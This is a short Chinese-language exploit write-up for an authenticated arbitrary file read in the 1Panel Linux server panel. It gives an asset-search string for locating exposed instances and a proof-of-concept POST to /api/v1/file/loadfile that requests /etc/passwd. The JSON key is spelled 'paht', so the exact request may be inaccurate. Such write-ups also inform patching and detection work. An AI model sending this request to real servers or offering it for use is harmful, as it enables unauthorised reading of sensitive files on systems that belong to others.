# 1Panel loadfile 后台文件读取漏洞

# 1Panel loadfile 后台文件读取漏洞

## 漏洞描述

1Panel 是一个现代化、开源的Linux 服务器运维管理面板。

1Panel 后台存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感信息文件

## 漏洞影响

1Panel

## 网络测绘

```
"1Panel"
```

## 漏洞复现

登陆页面

![image-20230828162515540](images/image-20230828162515540.png)

![image-20230828162528792](images/image-20230828162528792.png)

![image-20230828162539743](images/image-20230828162539743.png)

验证POC

```
POST /api/v1/file/loadfile

{"paht":"/etc/passwd"}
```

![image-20230828162553584](images/image-20230828162553584.png)

